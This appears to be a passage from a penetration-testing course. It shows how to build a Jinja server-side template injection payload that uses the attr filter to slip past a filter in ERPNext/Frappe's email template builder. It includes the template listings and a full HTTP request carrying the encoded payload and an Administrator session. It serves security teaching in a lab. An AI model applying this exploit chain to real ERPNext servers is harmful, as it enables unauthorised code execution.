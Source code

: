 {% set foo = "foo" %}
{% set bar = "bar" %}
{% set foo.bar = "Just another variable" %}
{{ foo|attr(bar) }}
Listing 70 - Example of attr filter

The output of this example would be: "Just another variable".

As mentioned earlier, while Jinja is built on Python and shares much of its functionality, the syntax is different. So while the filter is expecting the attribute to be accessed with a period followed by two underscores, we could rewrite the payload to use Jinja's syntax, making the "." unnecessary.

First, let's build the template to give us access to the attributes we will need to exploit the SSTI. We know that we will need a string, the __class__ attribute, the __mro__ attribute, and the __subclasses__ attribute.

{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
Listing 71 - Configuring String and Attributes

The string variable will replace the two single quotes ('') in the original payload. The rest of the values are the various attributes from the SSTI payload.

Now we can start building the SSTI payload string in the email template builder under the defined variables. First, let's attempt to get the __class__ attribute of the string variable using the expression "string|attr(class)".

With the template configured, let's render it and extract the classes of the string. If the SSTI works, we will receive a "<class 'str'>" response.

```
POST /api/method/frappe.email.doctype.email_template.email_template.get_email_template HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 40d982af267589a752055032bae9b3c93261930c6e99d04e4462a524
X-Frappe-CMD: 
X-Requested-With: XMLHttpRequest
Content-Length: 797
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/desk
Cookie: user_image=; system_user=yes; user_id=Administrator; full_name=Administrator; sid=63a960ebd19d5a6b6a5215c323fae00017887e50991a732fdbfcf809

template_name=Hacking+With+SSTI&doc=%7B%22name%22%3A%22Hacking+With+SSTI%22%2C%22response%22%3A%22%3Cdiv%3E%7B%25+set+string+%3D+%5C%22ssti%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+class+%3D+%5C%22__class__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+mro+%3D+%5C%22__mro__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+subclasses+%3D+%5C%22__subclasses__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%3Cbr%3E%3C%2Fdiv%3E%3Cdiv%3E%5C%22%7B%7B+string%7Cattr(class)%7D%7D%5C%22%3C%2Fdiv%3E%22%2C%22modified%22%3A%222024-08-28+17%3A20%3A48.372268%22%2C%22idx%22%3A0%2C%22docstatus%22%3A0%2C%22modified_by%22%3A%22Administrator%22%2C%22owner%22%3A%22Administrator%22%2C%22doctype%22%3A%22Email+Template%22%2C%22subject%22%3A%22Hacking+With+SSTI%22%2C%22creation%22%3A%222024-08-28+16%3A42%3A59.129341%22%7D&_lang=

```

